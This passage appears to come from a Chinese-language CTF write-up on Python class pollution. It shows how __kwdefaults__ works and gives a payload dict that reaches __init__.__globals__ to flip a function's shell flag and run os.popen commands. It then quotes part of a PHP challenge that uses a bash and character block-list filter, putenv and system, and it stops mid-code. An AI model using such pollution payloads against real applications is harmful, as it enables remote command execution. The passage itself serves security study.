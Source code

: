 ```python
print(func_b.__kwdefaults__)
#None
print(func_c.__kwdefaults__)
#{'var_3': 3}
print(func_d.__kwdefaults__)
#{'var_3': 3}
```

可以看到他仅获取了仅关键字参数，并且返回是以字典的形式返回的。

所以同样的

```python
def evil(arg_1 ,*,shell = False):
    if not shell:
        print(arg_1)
    else:
        print(__import__("os").popen(arg_1).read())

evil_payload = {
    "__init__" : {
        "__globals__" : {
            "evilFunc" : {
                "__kwdefaults__" : {
                    "shell" : True
                }
            }
        }
    }
}
```

这样子就可以进行污染了。

特定值污染
-----

### 环境变量污染

在这几天的i春秋的比赛当中出了这么一个赛题

```php
 &lt;?php
highlight_file(__FILE__);
error_reporting(E_ALL);
ini_set('display_errors', 1);
function filter($a)
{
    $pattern = array('\'', '"','%','\(','\)',';','bash');
    $pattern = '/' . implode('|', $pattern) . '/i';
    if(preg_match($pattern,$a)){
        die("No injecting!!!");
    }
    return $a;
}
class ENV{
    public $key;
    public $value;
    public $math;
    public function __toString()
    {
        $key=filter($this-&gt;key);
        $value=filter($this-&gt;value);
        putenv("$key=$value");
        system("cat hints.txt");
    }
```